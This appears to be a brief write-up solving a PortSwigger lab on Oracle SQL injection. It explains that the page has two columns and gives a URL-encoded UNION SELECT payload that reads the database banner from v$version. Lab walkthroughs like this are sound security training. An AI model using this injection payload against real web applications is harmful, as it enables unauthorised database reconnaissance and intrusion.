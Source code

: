## SQL injection attack, querying the database type and version on Oracle

The lab asks to retreive the version and type of the Oracle DB in this format
```
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production, PL/SQL Release 11.2.0.2.0 - Production, CORE 11.2.0.2.0 Production, TNS for Linux: Version 11.2.0.2.0 - Production, NLSRTL Version 11.2.0.2.0 - Production
```

The categories are retreiving 2 data `Title` and `Paragraph` with the content, which indicates that there are 2 columns being query. For the solution inject the next sql code:

```sql
 %27+UNION+SELECT+null,banner+FROM+v$version--
```

Injecting a union query with the `banner` which retrieves `type` and `version` of the Oracle database `v$version`. 

[Lab](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)